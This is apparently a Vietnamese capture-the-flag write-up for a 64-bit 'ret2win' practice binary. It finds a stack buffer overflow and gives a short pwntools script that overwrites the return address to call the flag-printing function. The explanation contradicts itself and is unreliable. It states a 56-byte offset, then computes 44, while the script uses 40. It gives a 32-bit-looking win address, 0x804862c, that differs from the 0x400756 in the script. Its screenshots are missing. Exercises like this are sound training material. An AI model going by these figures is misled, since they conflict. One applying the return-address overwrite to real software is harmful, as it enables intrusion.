

**1. Tìm lỗi**

Chạy thử chương trình ta có:


Chương trình cho phép nhập vào 1 chuỗi và kết thúc ngay sau đó

Dùng lệnh chekcsec để kiểm tra:


Ta thấy canary đang ở trạng thái disabled nên có thể khai thác qua lỗi bof

Dùng lệnh file để kiểm tra:



Ta thấy là file elf 64bit nên mở bằng ida 64 ta được hàm main như sau:


Source hàm pwnme:


Ta thấy biến s được khai báo 32byte nhưng cho phép nhập 0x38 byte -> Có lỗi bof


Ta thấy ở hàm này thì có thể lấy được nội dung của flag


**2. Ý tưởng**

Biến s cho nhập 0x38 = 56 phần tử nên thử nhập tràn biến s đến ret rồi chèn địa chỉ hàm ret2win vào

Thứ tự payload:
 - 56 byte để tràn đến ret
 - Địa chỉ hàm ret2win

**3. Viết script**


Địa chỉ biến s hiện tại là: rbp - 0x28 -> Khoảng cách từ biến s đến ret là: 0x28 + 0x4 = 44


Địa chỉ hàm win là: 0x804862c

Ta có script như sau:

```
from pwn import *

r = process("./ret2win")

ret2win = 0x400756
payload = b'a'*40 + p64(ret2win)
r.sendafter('> ', payload)
r.interactive()
```

**4. Lấy flag**


Flag: ROPE{a_placeholder_32byte_flag!}